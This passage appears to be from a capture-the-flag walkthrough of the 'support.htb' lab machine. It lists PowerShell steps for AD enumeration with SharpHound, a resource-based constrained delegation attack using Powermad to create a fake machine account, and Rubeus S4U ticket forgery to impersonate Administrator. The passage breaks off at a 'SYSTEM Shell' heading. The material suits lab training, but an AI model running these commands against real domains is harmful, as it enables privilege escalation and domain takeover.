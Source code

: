 ```powershell
# 1. Navigate to writable directory
cd C:\Windows\Temp

# 2. Upload and execute SharpHound
upload SharpHound.exe
.\SharpHound.exe

# 3. Download results
download *.zip
```

### ⚙️ Phase 4: RBCD Attack (PowerShell)

```powershell
# 1. Upload and import PowerView
upload PowerView.ps1
. ./PowerView.ps1

# 2. Check current delegations
Get-DomainComputer DC | select name, msds-allowedtoactonbehalfofotheridentity

# 3. Create fake machine with Powermad
upload Powermad.ps1
. ./Powermad.ps1
New-MachineAccount -MachineAccount FAKE-COMP01 -Password $(ConvertTo-SecureString 'Password123' -AsPlainText -Force)

# 4. Verify creation
Get-ADComputer -Identity FAKE-COMP01

# 5. Configure delegation on DC
Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount FAKE-COMP01$
```

### 🎫 Phase 5: Kerberos Ticket Generation (PowerShell)

```powershell
# 1. Upload Rubeus
upload Rubeus.exe

# 2. Generate RC4 hash
.\Rubeus.exe hash /password:Password123 /user:FAKE-COMP01$ /domain:support.htb
# → RC4: 58A478135A93AC3BF058A5EA0E8FDB71

# 3. Execute S4U attack to impersonate Administrator
.\Rubeus.exe s4u /user:FAKE-COMP01$ /rc4:58A478135A93AC3BF058A5EA0E8FDB71 /impersonateuser:Administrator /msdsspn:cifs/dc.support.htb /domain:support.htb /ptt
# → Copy generated base64 ticket
```

### 👑 Phase 6: SYSTEM Shell (Linux)

